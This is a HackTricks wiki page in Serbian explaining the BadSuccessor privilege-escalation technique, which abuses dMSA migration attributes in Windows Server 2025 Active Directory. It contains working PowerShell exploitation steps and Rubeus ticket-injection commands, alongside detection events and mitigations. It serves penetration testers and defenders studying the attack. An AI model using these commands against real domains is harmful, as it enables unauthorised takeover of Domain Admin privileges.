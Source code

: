 # BadSuccessor: Eskalacija privilegija putem zloupotrebe migracije delegiranih MSA

{{#include ../../banners/hacktricks-training.md}}

## Pregled

Delegirani upravljani servisni nalozi (**dMSA**) su naslednici **gMSA** nove generacije koji dolaze sa Windows Server 2025. Legitimni radni tok migracije omogućava administratorima da zamene *stari* nalog (korisnički, računar ili servisni nalog) sa dMSA dok transparentno čuvaju dozvole. Radni tok se izlaže putem PowerShell cmdlet-a kao što su `Start-ADServiceAccountMigration` i `Complete-ADServiceAccountMigration` i oslanja se na dva LDAP atributa **dMSA objekta**:

* **`msDS-ManagedAccountPrecededByLink`** – *DN link* ka prethodnom (starom) nalogu.
* **`msDS-DelegatedMSAState`**       – stanje migracije (`0` = nijedno, `1` = u toku, `2` = *završeno*).

Ako napadač može da kreira **bilo koji** dMSA unutar OU i direktno manipuliše ta dva atributa, LSASS i KDC će tretirati dMSA kao *naslednika* povezanog naloga. Kada se napadač kasnije autentifikuje kao dMSA **nasleđuje sve privilegije povezanog naloga** – do **Domain Admin** ako je Administrator nalog povezan.

Ova tehnika je nazvana **BadSuccessor** od strane Unit 42 2025. U trenutku pisanja **nema dostupnog sigurnosnog zakrpa**; samo učvršćivanje dozvola OU ublažava problem.

### Preduslovi za napad

1. Nalog koji je *dozvoljen* da kreira objekte unutar **Organizacione jedinice (OU)** *i* ima barem jedan od:
* `Create Child` → **`msDS-DelegatedManagedServiceAccount`** klasa objekta
* `Create Child` → **`All Objects`** (generičko kreiranje)
2. Mrežna povezanost sa LDAP i Kerberos (standardni scenario pridruženog domena / udaljeni napad).

## Enumeracija ranjivih OU

Unit 42 je objavio PowerShell pomoćni skript koji analizira bezbednosne deskriptore svake OU i ističe potrebne ACE-e:
```powershell
Get-BadSuccessorOUPermissions.ps1 -Domain contoso.local
```
Ispod haube, skripta pokreće paginiranu LDAP pretragu za `(objectClass=organizationalUnit)` i proverava svaki `nTSecurityDescriptor` za

* `ADS_RIGHT_DS_CREATE_CHILD` (0x0001)
* `Active Directory Schema ID: 31ed51fa-77b1-4175-884a-5c6f3f6f34e8` (objekat klase *msDS-DelegatedManagedServiceAccount*)

## Koraci za eksploataciju

Kada se identifikuje zapisiva OU, napad je samo 3 LDAP upisa daleko:
```powershell
# 1. Create a new delegated MSA inside the delegated OU
New-ADServiceAccount -Name attacker_dMSA \
-DNSHostName host.contoso.local \
-Path "OU=DelegatedOU,DC=contoso,DC=com"

# 2. Point the dMSA to the target account (e.g. Domain Admin)
Set-ADServiceAccount attacker_dMSA -Add \
@{msDS-ManagedAccountPrecededByLink="CN=Administrator,CN=Users,DC=contoso,DC=com"}

# 3. Mark the migration as *completed*
Set-ADServiceAccount attacker_dMSA -Replace @{msDS-DelegatedMSAState=2}
```
Nakon replikacije, napadač može jednostavno **prijaviti se** kao `attacker_dMSA$` ili zatražiti Kerberos TGT – Windows će izgraditi token *zamenjenog* naloga.

### Automatizacija

Nekoliko javnih PoC-ova obuhvata ceo radni tok uključujući preuzimanje lozinke i upravljanje karticama:

* SharpSuccessor (C#) – [https://github.com/logangoins/SharpSuccessor](https://github.com/logangoins/SharpSuccessor)
* BadSuccessor.ps1 (PowerShell) – [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1)
* NetExec modul – `badsuccessor` (Python) – [https://github.com/Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)

### Post-eksploatacija
```powershell
# Request a TGT for the dMSA and inject it (Rubeus)
Rubeus asktgt /user:attacker_dMSA$ /password:<ClearTextPwd> /domain:contoso.local
Rubeus ptt /ticket:<Base64TGT>

# Access Domain Admin resources
dir \\DC01\C$
```
## Detekcija i Lov

Omogućite **Auditing objekata** na OU-ima i pratite sledeće Windows sigurnosne događaje:

* **5137** – Kreiranje **dMSA** objekta
* **5136** – Izmena **`msDS-ManagedAccountPrecededByLink`**
* **4662** – Promene specifičnih atributa
* GUID `2f5c138a-bd38-4016-88b4-0ec87cbb4919` → `msDS-DelegatedMSAState`
* GUID `a0945b2b-57a2-43bd-b327-4d112a4e8bd1` → `msDS-ManagedAccountPrecededByLink`
* **2946** – Izdavanje TGT za dMSA

Korelacija `4662` (izmena atributa), `4741` (kreiranje računa za računar/uslugu) i `4624` (naknadno prijavljivanje) brzo ističe BadSuccessor aktivnost. XDR rešenja kao što je **XSIAM** dolaze sa spremnim upitima (vidi reference).

## Ublažavanje

* Primena principa **najmanjih privilegija** – delegirati *upravljanje servisnim računima* samo pouzdanim ulogama.
* Uklonite `Create Child` / `msDS-DelegatedManagedServiceAccount` sa OU-a koji to izričito ne zahtevaju.
* Pratite događaje sa ID-evima navedenim iznad i upozorite na *non-Tier-0* identitete koji kreiraju ili uređuju dMSA.

## Takođe pogledajte

{{#ref}}
golden-dmsa-gmsa.md
{{#endref}}

## Reference

- [Unit42 – Kada dobri računi postanu loši: Iskorišćavanje delegiranih upravljanih servisnih računa](https://unit42.paloaltonetworks.com/badsuccessor-attack-vector/)
- [SharpSuccessor PoC](https://github.com/logangoins/SharpSuccessor)
- [BadSuccessor.ps1 – Pentest-Tools-Collection](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1)
- [NetExec BadSuccessor modul](https://github.com/Pennyw0rth/NetExec/blob/main/nxc/modules/badsuccessor.py)

{{#include ../../banners/hacktricks-training.md}}
